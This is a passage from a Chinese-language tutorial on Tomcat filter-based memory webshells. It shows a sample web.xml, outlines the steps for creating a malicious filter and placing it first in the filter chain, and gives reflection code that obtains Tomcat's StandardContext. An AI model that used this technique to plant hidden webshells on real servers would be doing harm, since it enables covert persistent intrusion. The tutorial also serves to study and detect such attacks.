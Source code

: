 **web.xml:**

```xml
<!DOCTYPE web-app PUBLIC
 "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
 "http://java.sun.com/dtd/web-app_2_3.dtd" >

<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">

  <display-name>Archetype Created Web Application</display-name>

<!--  我们创建一个servlet和一个filter 访问路由都是为/test-->
  <servlet>
    <servlet-name>HelloServlet</servlet-name>
    <servlet-class>TestServlet</servlet-class>
  </servlet>
  <servlet-mapping>
    <servlet-name>HelloServlet</servlet-name>
    <url-pattern>/test</url-pattern>
  </servlet-mapping>

  <filter>
    <filter-name>testFilter</filter-name>
    <filter-class>MyFilter</filter-class>
  </filter>
  <filter-mapping>
    <filter-name>testFilter</filter-name>
    <url-pattern>/test</url-pattern>
  </filter-mapping>

</web-app>


```

对应Web.xml中的配置信息，这种方式就是为静态的添加filter的方式，filter实现分为静态和动态，静态就是上述中，普通配置在web.xml或者通过@注释配置在类中的。



### 0x03 一个简单Filter内存马案例

1. 首先创建一个恶意Filter
2. 利用 FilterDef 对 Filter 进行一个封装
3. 将 FilterDef 添加到 FilterDefs 和 FilterConfig
4. 创建 FilterMap ，将我们的 Filter 和 urlpattern 相对应，存放到 filterMaps中（由于 Filter 生效会有一个先后顺序，所以我们一般都是放在最前面，让我们的 Filter 最先触发）

```java
    ServletContext servletContext = request.getSession().getServletContext();
    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
        // ApplicationContext 为 ServletContext 的实现类
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
        // 这样我们就获取到了 context 
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

```

